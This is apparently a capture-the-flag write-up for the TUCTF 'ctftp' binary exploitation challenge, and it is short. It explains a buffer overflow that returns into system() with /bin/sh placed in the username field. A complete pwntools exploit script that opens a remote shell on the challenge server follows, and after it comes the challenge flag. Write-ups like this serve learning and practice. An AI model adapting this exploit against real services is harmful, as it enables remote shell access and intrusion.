 # ctftp

## PWN - Points: 500

> Just what the world needs... another vulnerable FTP server. Have fun.
>
> 
>
> nc chal.tuctf.com 30500
>
> [ctftp](ctftp)
>

Overflow the buffer and call the `system` function with a pointer to the username, that contains `/bin/sh`.

Exploit script:

```python
from pwn import *


e = ELF('ctftp')

# p = process('ctftp')
p = remote('chal.tuctf.com', 30500)

p.sendlineafter(': ', '/bin/sh')
p.sendlineafter('> ', '2')
p.sendlineafter(': ', 'A' * 76 + p32(e.plt['system']) + 'AAAA' + p32(e.symbols['username']))
p.interactive()
```

flag: `TUCTF{f1l73r_f1r57_7h3y_541d._y0u'll_b3_53cur3_7h3y_541d}`